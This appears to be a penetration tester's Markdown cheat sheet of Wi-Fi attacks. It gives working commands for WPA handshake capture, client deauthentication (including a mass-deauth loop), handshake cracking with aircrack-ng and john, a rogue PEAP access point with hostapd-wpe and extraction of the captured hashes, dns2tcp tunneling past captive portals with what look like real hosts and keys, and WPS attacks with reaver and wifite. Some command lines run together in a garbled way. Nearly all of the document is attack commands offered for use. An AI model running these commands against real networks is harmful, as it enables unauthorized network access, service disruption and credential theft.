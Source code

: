 # WIFI

## **WPA**

1. Capture Handshake using airodump-ng 
2. Crack it locally using john or hashcat

### 1. Monitor mode

```sh
sudo airmon-ng start wlan0
```

### 2. Listen for specific bssid

```sh
sudo airodump-ng -a mon0
```

> find you target bssid \(mac\) and chanel

```sh
airodump-ng -c <channel> --bssid <MAC-BOX-CLIENT> --showack -w capture mon0
```

> don't forget the -w paramter to save the handshake !

### 3. DeAUTH

```sh
# DEAUTH all clients from a box
aireplay-ng mon0 -0 5 -b <MAC-BOX>

# DEAUTH specific client device
aireplay-ng mon0 -0 5 -a <MAC-BOX> -c <MAC-DEVICE-CLIENT> 


# DEAUTH massif (each client connected at each bssid of an essid)
for bssid in cat bssid_deauth.lst; do for mac in cat client_deauth.lst; do aireplay-ng mon.wlan0 -0 5 -a $bssid -c $mac --ignore-negative-one -e <ESSID_CLIENT> ; done ; done

```

### 4. Handshake cracking

Handshaked captured ? go crack it !

Crack with aircrack

```sh
aircrack-ng capture-01.cap --wordlist=<wordlist>
```

Crack with john

```bash
wpaclean capture.cap-01.clean.cap capture.cap-01.cap
aircrack-ng capture.cap-01.clean.cap -J capture.cap-01.hccap
hccap2john capture.cap-01.hccap > capture.cap-01.hccap.john
john --wordlist=<wordlist> capture.cap-01.hccap.john
```

Crack with hashcat

```sh
todo
```

---

## **PEAP**

1. `sudo apt install hostapd-wpe`
2. Configure same channel and essid than the client's one in hostapd conf
3. Disconnect clients devices \(see WPA - 3. DeAUTH\)

Log PEAP : hash client format john

```sh
cat peap_client_log.txt | grep username -A2 | sed '/^--/d' | awk '{print $2}' | tr -d ':' | awk 'NR%3{printf $0":";next;}1' | awk -F ':' '{print $1"::::"$3":"$2}'
```

> Vulnerability fix : GPO validate certificate

---

## **Captive portal**

### DNS tunneling

Try DNS tunneling to exfiltrate data over the internet

- [http://requestbin.net/dns](http://requestbin.net/dns)

## Troubleshooting

### unblock wifi card

```bash
sudo nmcli nm wifi off
sudo nmcli radio wifi off
sudo rfkill unblock wlan
```

---

## **Todo**

### PEAP hash replay

* Spoof AP and replay hashed captured
  * [Sensepost berate_ap](https://github.com/sensepost/berate_ap)
  * [Sensepost sycophant](https://github.com/sensepost/wpa_sycophant)

### dns2tcp manually

création du tunel

```sh
dns2tcpc -z dnstun.lexsi.net -c -d 1 -l 9000 -r ssh 192.168.128.27 -k _bijour@lexsi_ dns2tcpc -z dnstun.lexsi.net -c -d 1 -l 9000 -r ssh 192.168.1.29 -k Q5xTEGHgqa8 ssh rsshdummy@127.0.0.1 -p 9000 -D 9010 -N -i rssh\_dummy\_dv\_new
```

mise en place du proxy local

```sh
ssh rssh@127.0.0.1 -p 9000 -D 9010 -N -i rssh.ssh
```

### WPS

```bash
airmon-ng check airmon-ng start wlan1 
wifite --showb --wpa --mon-iface wlan0mo 
airodump-ng -a wlan1mon --wps --essid-regex EDL time reaver -i wlan1mon -c 1 -b E8:FC:AF:9A:C9:B0 -K 1 
airodump-ng -a wlan1mon --essid-regex Internet 
wifite --showb --wpa --mon-iface wlan0mon --aircrack --pyrit --tshark --cowpatty --power 40
airmon-ng check airmon-ng start wlan0 
airodump-ng wlan0mon --wps --essid-regex VICTIM reaver -i wlan0mon -c $channel -b $bssid -K 1
```